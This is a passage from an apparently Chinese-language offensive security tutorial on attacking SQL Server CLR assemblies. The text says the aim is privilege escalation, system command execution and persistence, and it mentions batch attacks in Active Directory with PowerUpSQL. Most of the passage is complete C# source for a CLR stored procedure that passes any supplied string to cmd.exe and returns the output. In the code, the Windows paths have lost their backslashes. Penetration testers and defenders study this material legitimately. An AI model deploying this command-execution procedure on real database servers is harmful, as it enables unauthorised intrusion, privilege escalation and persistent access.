 ### 13.15 攻击SQL Server CLR程序集

在这个博客中，我会扩展Nathan Kirk博客CLR系列的CLR组件攻击。 我将介绍如何创建，导入，导出和修改SQL Server中的CLR程序集，以达到提升权限，执行系统命令和持久性等目的。我还将分享一些使用PowerUpSQL在Active Directory环境中更大规模执行(批量)CLR攻击的技巧。

**什么是SQL Server中的自定义CLR程序集？**

为了这个博客可以更好的说明，我们将定义一个公共语言运行库（CLR）组件作为一个.NET的DLL（或一组DLL）可以导入到SQL服务器。一旦导入，DLL方法就可以链接到存储过程，并通过TSQL执行。创建和导入自定义CLR程序集的能力是开发人员扩展SQL Server本地功能的一个很好的方式，但自然也为攻击者创造了机会。

**如何为SQL Server定制一个自定义的CLR DLL?**

下面是根据Nathan Kirk的操作和一些文章实现的利用微软C#执行系统命令的示例。你可以根据需要对代码作出修改，当你修改完毕后将文件保存至“c:tempcmd\_exec.cs”。

 
```
   using System;
    using System.Data;
    using System.Data.SqlClient;
    using System.Data.SqlTypes;
    using Microsoft.SqlServer.Server;
    using System.IO;
    using System.Diagnostics;
    using System.Text;
    public partial class StoredProcedures
    {
        [Microsoft.SqlServer.Server.SqlProcedure]
        public static void cmd_exec (SqlString execCommand)
        {
            Process proc = new Process();
            proc.StartInfo.FileName = @"C:WindowsSystem32cmd.exe";
            proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
            proc.StartInfo.UseShellExecute = false;
            proc.StartInfo.RedirectStandardOutput = true;
            proc.Start();
            // Create the record and specify the metadata for the columns.
            SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));
            
            // Mark the beginning of the result set.
            SqlContext.Pipe.SendResultsStart(record);
            // Set values for each column in the row
            record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
            // Send the row back to the client.
            SqlContext.Pipe.SendResultsRow(record);
            
            // Mark the end of the result set.
            SqlContext.Pipe.SendResultsEnd();
            
            proc.WaitForExit();
            proc.Close();
        }
    };
```
